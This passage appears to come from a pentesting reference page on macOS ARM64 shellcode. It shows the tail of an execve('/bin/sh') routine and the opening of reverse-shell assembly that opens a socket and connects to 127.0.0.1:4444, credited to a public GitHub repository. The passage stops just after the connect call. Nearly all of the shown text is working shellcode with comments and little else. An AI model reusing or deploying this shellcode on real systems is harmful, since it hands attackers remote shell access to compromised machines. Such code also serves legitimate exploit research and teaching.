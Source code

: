 ```armasm
    cmp  x10, x2
    bne  call_dup

call_execve:
    // execve("/bin/sh", 0, 0)
    mov  x1, #0x622F
    movk x1, #0x6E69, lsl #16
    movk x1, #0x732F, lsl #32
    movk x1, #0x68, lsl #48
    str  x1, [sp, #-8]
    mov	 x1, #8
    sub  x0, sp, x1
    mov  x1, xzr
    mov  x2, xzr
    mov  x16, #59
    svc  #0x1337
```

#### Reverse shell

From [https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/reverseshell.s](https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/reverseshell.s), revshell to **127.0.0.1:4444**

```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
    // s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
    mov  x16, #97
    lsr  x1, x16, #6
    lsl  x0, x1, #1
    mov  x2, xzr
    svc  #0x1337

    // save s
    mvn  x3, x0

call_connect:
    /*
     * connect(s, &sockaddr, 0x10)
     *
     * struct sockaddr_in {
     *     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
     *     sa_family_t     sin_family;  // AF_INET = 2
     *     in_port_t       sin_port;    // 4444 = 0x115C
     *     struct  in_addr sin_addr;    // 127.0.0.1 (4 bytes)
     *     char            sin_zero[8]; // Don't care
     * };
     */
    mov  x1, #0x0210
    movk x1, #0x5C11, lsl #16
    movk x1, #0x007F, lsl #32
    movk x1, #0x0100, lsl #48
    str  x1, [sp, #-8]
    mov  x2, #8
    sub  x1, sp, x2
    mov  x2, #16
    mov  x16, #98
    svc  #0x1337

    lsr  x2, x2, #2

```